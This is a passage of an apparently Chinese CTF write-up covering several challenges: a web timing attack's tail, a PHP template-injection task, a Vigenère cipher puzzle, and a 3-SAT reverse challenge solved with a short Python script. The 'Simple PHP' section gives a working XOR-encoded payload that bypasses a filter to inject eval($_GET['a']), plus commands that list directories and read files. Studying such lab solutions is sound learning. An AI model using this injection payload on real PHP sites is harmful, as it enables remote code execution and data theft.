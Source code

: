 ```javascript
}

run('');
```

注意到有个很坑的地方是 admin session 过期时间 6 分钟，超过这个时间就寄了，给爷坑了一下午。

可以每次试出两三个字符，然后多跑几次。跑出来的最后一个字符好像结果非常不显著，懒得再跑一次了，反正每 5 秒就能交一次 Flag，就从 0 试到 f，结果是 f，我直呼好家伙。

## [web] Simple PHP

利用 `get_pic.php` 的文件包含漏洞读代码，代码路径是 `/var/www/html` 这个很好猜。然后仔细观察利用 template 生成文件的逻辑，不难弄出一个 PoC：

```
user = pgg)/*
website = */;phpinfo();/*
```

问题是 website 长度限制太短了。考虑到把 payload 塞到 `__PUNC__` 里面，过滤可以通过 xor 来绕过。最终 payload 如下：

```
user = pgg)/*
punc = %27%60~%60%60%29%25%5E%40%40%5C_%23%60%23%5C%28%3A%27%5E%27%05%08%01%0C%01%01%01%07%05%08%04%01%01%01%01%01%01%27
↑ xor结果是 eval($_GET["a"]);
website = */;eval(__PUNC__);/*

?a=var_dump(scandir(%27/%27));
?a=var_dump(file_get_contents(%27/flag-xxxxxx%27));
```

## [misc] Ranma½
很容易看出是Vigenère加密（特征：拉丁字母转成拉丁字母，保持大小写，不同的字母可能被加密成相同字母，字母频率基本相等）。把密文复制到https://www.dcode.fr/vigenere-cipher，然后点击Automatic Decryption，就能看到明文。

但是我比赛的当天dcode无法访问（服务器故障，非被墙；而且写writeup的时候可以访问）。因此用https://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx自动寻找密钥。该网站自动找的密钥有一些字符错误，因此再用http://rumkin.com/tools/cipher/vigenere.php解密（在该网站修改密钥后解密结果会自动更新）。仅仅慢了12秒一血就被别的队抢走了。

## [reverse] Tales of the Arrow

题意是给了136个布尔变量（对应flag括号里面的17个字符），然后产生15000个bits[i]=j的断言，其中每三个断言为一组，一组中有一个一定是正确的，其他两个有3/4的概率是错误的。这可以转化成一个3-SAT问题，共有5000个子句。但是这道题没有必要使用任何求解器。

注意到每个可见字符的最高位一定是0，因此有17个bit已知为0。我们在每个子句中删除所有不可能满足的变量，然后删除已经满足的子句。此时有些子句只有一个变量，因此这些变量值可以确定。然后重复上述处理到所有变量值都确定为止。

```python
z=[int(i) for i in open(r"output.txt").readlines()[2:]]
z1=[set(z[3*i:3*i+3]) for i in range(5000)]
A=set(-(8*i+1) for i in range(17))
B=set(-i for i in A)
while len(z1)>0:
    z1=[i-B for i in z1 if len(i&A)==0]
    A=A|set(list(i)[0] for i in z1 if len(i)==1)
    B=set(-i for i in A)

b="".join(["1" if i in A else "0" for i in range(1,137)])
print(''.join(chr(int(''.join(x), 2)) for x in zip(*[iter(b)]*8)))
```
